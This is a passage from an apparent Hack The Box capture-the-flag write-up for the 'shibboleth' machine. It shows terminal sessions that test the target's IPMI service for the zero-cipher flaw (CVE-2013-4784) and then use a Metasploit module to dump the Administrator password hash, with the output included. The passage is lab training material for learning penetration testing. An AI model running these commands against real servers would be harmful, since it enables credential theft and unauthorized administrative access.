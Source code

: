 ```sh
┌──(root💀kali)-[~/htb/shibboleth]
└─# wget https://raw.githubusercontent.com/alexoslabs/ipmitest/master/ipmitest.sh
--2021-11-28 17:15:57--  https://raw.githubusercontent.com/alexoslabs/ipmitest/master/ipmitest.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2850 (2.8K) [text/plain]
Saving to: ‘ipmitest.sh’
ipmitest.sh     100%[======================================================================>]   2.78K  --.-KB/s    in 0s
2021-11-28 17:15:57 (66.3 MB/s) - ‘ipmitest.sh’ saved [2850/2850]
```

Now just run it against the box:

```text
┌──(root💀kali)-[~/htb/shibboleth]
└─# bash ./ipmitest.sh shibboleth.htb
'####:'########::'##::::'##:'####:'########:'########::'######::'########:
. ##:: ##.... ##: ###::'###:. ##::... ##..:: ##.....::'##... ##:... ##..::
: ##:: ##:::: ##: ####'####:: ##::::: ##:::: ##::::::: ##:::..::::: ##::::
: ##:: ########:: ## ### ##:: ##::::: ##:::: ######:::. ######::::: ##::::
: ##:: ##.....::: ##. #: ##:: ##::::: ##:::: ##...:::::..... ##:::: ##::::
: ##:: ##:::::::: ##:.:: ##:: ##::::: ##:::: ##:::::::'##::: ##:::: ##::::
'####: ##:::::::: ##:::: ##:'####:::: ##:::: ########:. ######::::: ##::::
..:::::::::..:::::..::....:::::..:::::........:::......::::::..:::::
V.(0.2) by Alexos Core Labs
[*] Testing dependencies...
[*] ipmitool version 1.8.18 installed...
[*] Analyzing IPMI on shibboleth.htb...
[*] Creating Log Directory...
[*] Testing for Zero Cipher(CVE-2013-4784)...
privilege level               : ADMINISTRATOR
[*] done
```

## Metasploit

With the host confirmed to be vulnerable we can turn to [this](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/) Rapid7 post on using Metasploit to dump user hashes:

```sh
┌──(root💀kali)-[~/htb/shibboleth]
└─# msfdb start
[+] Starting database

┌──(root💀kali)-[~/htb/shibboleth]
└─# msfconsole -nqx "use scanner/ipmi/ipmi_dumphashes; set RHOSTS 10.10.11.124; set RPORT 623; set OUTPUT_JOHN_FILE out.john; exploit"
RHOSTS => 10.10.11.124
RPORT => 623
OUTPUT_JOHN_FILE => out.john
[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:86466b970223000067982d8966a40875c1ece9a0799cef734640ca4dfe646e76990b8a3b7e28ac51a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f3006eb7f7bf3fcdf9a253ba31144abb49b65e77
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
